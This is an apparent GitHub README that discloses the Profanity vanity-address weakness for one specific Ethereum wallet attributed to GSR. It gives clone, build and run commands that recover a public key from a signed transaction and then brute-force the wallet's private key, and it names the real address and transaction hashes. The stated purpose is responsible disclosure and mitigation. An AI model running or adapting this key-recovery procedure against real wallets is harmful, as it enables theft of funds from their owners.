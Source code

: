 
## Disclosure

Hi all, I'm Nate, a security researcher and a master's student in Cyber Security, Threat and Forensics.

I have created this private repository with the required code dependencies specifically for demonstration to provide a proof of concept for the vulnerability I am disclosing.


## Brief Introduction

Profanity is specialized software for generating Ethereum vanity addresses. It harnesses GPU capabilities using OpenCL to efficiently perform this task. The process begins by generating a random private key, then computes the corresponding public key, and ultimately derives the Ethereum address from it. This method benefits from the parallel processing capabilities of GPUs, enhancing the speed and efficiency of creating customized Ethereum addresses.

However, the issue with Profanity is that it uses a random 32-bit vector to seed 256-bit private keys, making it possible to brute-force private keys for wallets generated using this tool.

Read more about the exploit in [this blog post](https://medium.com/amber-group/exploiting-the-profanity-flaw-e986576de7ab#:~:text=Profanity%20is%20an%20Ethereum%20vanity,then%20derives%20the%20Ethereum%20address.).

# Profanity Brute-force
This tool is designed to exploit a vulnerability in the method used for generating certain vanity Ethereum addresses. It aims to reconstruct the private keys of wallets created through interfaces that utilised the Profanity tool. This vulnerability arises from specific flaws in Profanity's address generation process.

## How I Discovered This Wallet Is Affected

I reported an approval exploit in one of GSR's wallets nearly two months ago, where one of the wallets had inadvertently granted a vulnerable contract unlimited allowance to spend its holdings. I reviewed all the addresses they had [labeled on Spotonchain](https://platform.spotonchain.ai/en/entity/807) and noticed the padding style of [this particular address](https://etherscan.io/address/0x8811bfb8bb23a64f7dfa0a545654ab942dc4ad30).

I noticed the repetition of numbers and characters in the address, which led me to suspect it might have been generated using a vanity address creation interface. Prompted by this, I began examining various psotmortems of previously exploited vanity addresses. My goal was to replicate the methods used in those instances to achieve a similar outcome with this address.

I started the brute-force process on the address "0x8811BfB8BB23a64f7dFa0a545654Ab942dc4AD30" to uncover its corresponding private key, following these steps:

## Requirements
- A machine equipped with a high-performance GPU.
- A machine with a minimum of 32GB of RAM.
- A machine that will not disrupt ongoing workflows.
- A machine that is not critical for your work, as the intensive GPU usage may lead to system crashes.

### 1. Build the project
    
    $ git clone https://github.com/0xmstore/GSR
    $ cd GSR
    $ make


### 2. Compute public keys
Run the following command to precompute all seed public keys into `cache` directory.

    $ mkdir cache
    $ ./profanity.x64 -h 

### 3. Find any signed transaction

You need to have a signed transaction in order to reconstruct a public key. You can find it using [Etherscan](https://etherscan.io/).

Let's use the most recent transaction with the hash `0xaf054276bde22dbd41d05214053f24993866d2d2aab5677dcaef490788a01627` and click on `Get Raw Tx Hex` to obtain the raw transaction.

<img width="971" alt="screengrab" src="https://github.com/0xmstore/GSR/assets/99334291/65424c25-e42d-4fd4-b20b-2f75a79e3363">
 

Raw Tx Hex: `0x02f8b10109843b9aca008501ee8cd8b58301189c946e2a43be0b1d33b726f0ca3b8de60b3482b8b05080b844a9059cbb000000000000000000000000a722549ae344d5bf4333aa092c389928f286ce2b000000000000000000000000000000000000000000001fc3842bd1f071c00000c080a08ec7259af0cef057e4fdc04fa15a81ac00a39f5d0c890ed9e2db5ecf77e08fdea03f95de3f8c93bd0112852f9fa50a101853e9c1c7dbecde08d746ebcf2fba74d2`

### 4. Reconsutruct the public key

To obtain the public key from the raw transaction, utilize the `pubkey.py` script.

    $ pip install -r requirements.txt
    $ python pubkey.py -t 0x02f87201048459682f0085013d2a27d082520894000000000d1c18a47a23c5826b2567c864a7d414880328ddd5c0dafd7880c001a0c7065b5d54ebcfb3a4325bbd80e0a352500784e2b12cfee614f8ab179ef9cd479fd78e0651f4f408db5420c785204b704ac14de95b18efb913036d9845906da2

### 5. Run search

Once you have successfully recover the publickey, the next step is to run the search using the command line below

    $ ./profanity.x64 --reverse --steps 200000 --cache --target publickey

### 6. Results

This search took approximately 21 days of intermittent running of the script to be able to generate the private key  due to my MacBook M2 Pro's GPU power limitations. Successfully generating a private key signals a vulnerability. **However, if it fails to do so, it does not necessarily indicate that the wallet is safe!** You can try running step 5 with additional steps.


## Mitigation

To mitigate this issue, it's recommended to remove this wallet from your list of proprietary operational wallets. Given that anyone with sufficient resources and expertise could potentially brute-force the private key, there's a risk of unauthorised access to the funds held in this wallet.

Please let me know if any part needs further explanation or clarification.


# Disclaimer

The vulnerability details disclosed in this document are intended solely for the understanding and resolution. The information is confidential and should be treated as such, not to be disclosed or discussed outside authorised channels. It is provided in good faith to support security awarness and should not be used for any unauthorised or unlawful activities. The author assumes no liability for any actions taken by individuals or entities based on this information, and any misuse of this disclosure may be subject to legal action. All information herein have been reported responsibly and ethically to the appropriate parties.


Sincerely,
Nate
